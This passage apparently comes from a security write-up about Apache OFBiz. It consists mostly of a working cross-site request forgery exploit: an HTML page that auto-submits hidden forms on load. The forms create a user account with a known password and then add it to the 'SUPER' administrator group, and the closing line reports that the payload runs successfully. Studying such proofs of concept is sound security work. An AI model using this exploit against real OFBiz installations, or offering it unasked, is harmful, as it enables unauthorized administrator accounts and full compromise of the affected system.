 {% code title="ofbiz2.html" overflow="wrap" %}
```html
<html>
<head>
<script>
function submitForms() {
  document.forms['csrf'].submit();
  setTimeout(function() {document.forms['csrf2'].submit();}, 1000);
  return false;
}
</script>
</head>

<body onload="submitForms();" >

<form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf" target="_blank">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="csrftestuser">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
</form>

<form action="https://ofbiz:8443/webtools/control/addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
  <input type="hidden" name="groupId" value="SUPER">
  <input type="hidden" name="userLoginId" value="csrftestuser">
  <input type="hidden" name="fromDate_i18n">
  <input type="hidden" name="fromDate">
  <input type="hidden" name="thruDate_i18n">
  <input type="hidden" name="thruDate">
</form>

</body>
</html>
```
{% endcode %}

In visiting `localhost/ofbiz2.html`, two new tabs open up and the payload is successfully executed (Figure 9).
